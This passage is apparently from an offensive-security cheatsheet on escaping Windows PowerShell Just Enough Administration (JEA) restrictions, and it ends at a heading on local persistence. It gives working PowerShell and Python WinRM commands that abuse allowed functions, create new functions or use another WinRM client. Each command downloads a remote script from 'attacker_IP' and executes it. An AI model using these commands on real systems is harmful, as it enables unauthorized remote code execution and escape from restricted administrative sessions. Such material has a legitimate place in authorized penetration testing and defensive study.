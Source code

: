 ### Massive local privesc cheatsheet

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Escape JEA

#### Abuse an allowed function

```powershell
#Look at allowed functions
Get-Command

#Look at the function code
(Get-Command <function>).Definition
#Or
gcm <function> -show
```

For example if it is possible to control the `$param` parameter here `$ExecutionContext.InvokeCommand.ExpandString($param)`, it is possible to execute some code by passing this as argument : `'$(powershell.exe -c "iEx (New-Object System.Net.WebClient).DownloadString(''http://attacker_IP/Invoke-HelloWorld.ps1'')")'`

#### Function creation

If the JEA allowed to create a new function it can be abused

```powershell
Invoke-Command -Session $sess -ScriptBlock {function blackwasp {iex (new-object net.webclient).downloadstring('http://attacker_IP/Invoke-HelloWorld.ps1')}}
Invoke-Command -Session $sess -ScriptBlock {blackwasp}
```

#### With another WinrRM client

Sometimes this WinRM in Python can bypass the JEA

```python
import winrm

s = winrm.Session('target_IP', auth=('administrator', 'password'))
r = s.run_cmd('powershell -c "IEX((New-Object System.Net.WebClient).DownloadString(\'http://attacker_IP/Invoke-HelloWorld.ps1\'))"')

print r.status_code
print r.std_out
print r.std_err
```

## Local Persistence

### SharPersist
